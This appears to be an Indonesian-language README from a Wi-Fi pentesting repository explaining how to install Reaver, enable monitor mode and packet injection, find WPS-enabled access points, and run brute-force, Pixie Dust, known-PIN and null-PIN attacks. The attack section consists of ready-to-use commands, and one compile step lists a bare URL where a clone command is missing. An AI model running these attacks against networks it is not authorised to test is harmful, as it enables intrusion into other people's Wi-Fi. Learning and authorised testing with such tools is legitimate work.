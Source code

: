 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

1. Scan Wi-Fi WPS:

   ```
   sudo wash -i [interface]
   ```

2. Pilih Taraget
   Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

3. Jalankan Serangan:

   1. Brute Force PIN Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -vv
      ```
   2. Pixie Dust Attack

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
      ```
   3. Known PIN Attack

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -p [pin_wps] -vv
      ```
   4. Null PIN Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -p "" -vv
      ```

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut

